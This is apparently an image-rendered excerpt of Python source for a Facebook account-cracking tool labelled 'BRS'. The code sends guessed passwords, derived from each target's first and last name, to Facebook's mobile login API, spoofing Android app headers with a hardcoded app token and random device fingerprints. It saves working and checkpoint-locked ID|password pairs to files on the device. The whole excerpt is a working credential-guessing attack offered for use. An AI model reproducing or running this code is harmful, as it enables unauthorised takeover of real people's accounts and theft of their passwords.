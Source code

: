                 'locale':'en_PK',
                'client_country_code':'PK',
                'method':'auth.login',
                'fb_api_req_friendly_name':'authenticate',
                'fb_api_caller_class':'com.facebook.account.login.protocol.Fb4aAuthHandler',
                'access_token':'350685531728|62f8ce9f74b12f84c123cc23437a4a32'}
                head = {
                'content-type':'application/x-www-form-urlencoded',
                'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                'x-fb-connection-type':'unknown',
                'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                'user-agent':ua_string,
                'x-fb-net-hni':str(random.randint(2e4,4e4)),
                'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                'x-fb-connection-quality':'EXCELLENT',
                'x-fb-friendly-name':'authenticate',
                'accept-encoding':'gzip, deflate',
                'x-fb-http-engine':    'Liger'}
                url = 'https://b-api.facebook.com/method/auth.login'
                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                q = json.loads(po)
                if 'session_key' in q:
                    print('\r\r\033[1;32m [BRS-OK] '+ids+' | '+pas+'\033[1;97m')
                    open('/sdcard/BRS/BRS-OK.txt','a').write(ids+'|'+pas+'\n')
                    oks.append(ids)
                    break
                elif 'www.facebook.com' in q['error_msg']:
                    if 'y' in pcp:
                        print('\r\r\x1b[38;5;205m [BRS-CP] '+ids+' | '+pas+'\033[1;97m')
                        open('/sdcard/BRS/BRS-CP.txt','a').write(ids+'|'+pas+'\n')
                        cps.append(ids)
                        break
                    else:
                        open('/sdcard/BRS/BRS-CP.txt','a').write(ids+'|'+pas+'\n')
                        break
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            time.sleep(10)
        except Exception as e:
            pass
#m2
#b-graph method        
def api2(ids,names,passlist):
        try:
                global ok,loop,sim_id
                sys.stdout.write('\r\r\033[1;37m [BRS-M2] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn
                for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']